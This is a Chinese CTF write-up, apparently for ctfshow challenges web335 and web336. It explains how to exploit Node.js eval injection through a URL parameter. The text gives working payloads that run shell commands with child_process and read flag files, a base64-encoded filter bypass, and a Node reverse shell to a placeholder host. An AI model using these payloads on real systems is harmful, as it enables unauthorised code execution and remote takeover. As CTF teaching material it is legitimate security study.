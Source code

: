根据逻辑ctfshow即可得到flag

![image-20250131143121976](https://gitee.com/bx33661/image/raw/master/path/image-20250131143121976.png)



### web335

查看源码可以发现eval危险函数

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>CTFFSHOW</title>
    <script type="text/javascript" src="/javascripts/jquery.js"></script>
</head>
<body>
    where is flag?  
    <!-- /?eval= -->

</body>
</html>
```

直接rce：

```javascript
?eval=require('child_process').spawnSync('ls',['.']).stdout.toString()
?eval=require('child_process').spawnSync('cat',['fl00g.txt']).stdout.toString()
```



### web336

跟上一题一样，过滤了`exec`

1. 可以继续使用spawnSync
2. 绕过过滤

```javascript
/?eval=eval(Buffer.from("cmVxdWlyZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWNTeW5jKCdjYXQgZmwwMDFnLnR4dCcp",'base64').toString('ascii'))

require('child_process').execSync('ls').toString()

/?eval=require('fs').readFileSync('fl001g.txt','utf-8')
```



1. 可以使用弹shell

```javascript
(function(){
    var net = require("net"),
    cp = require("child_process"),
    sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(3366, "xxxxx", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
})();
```
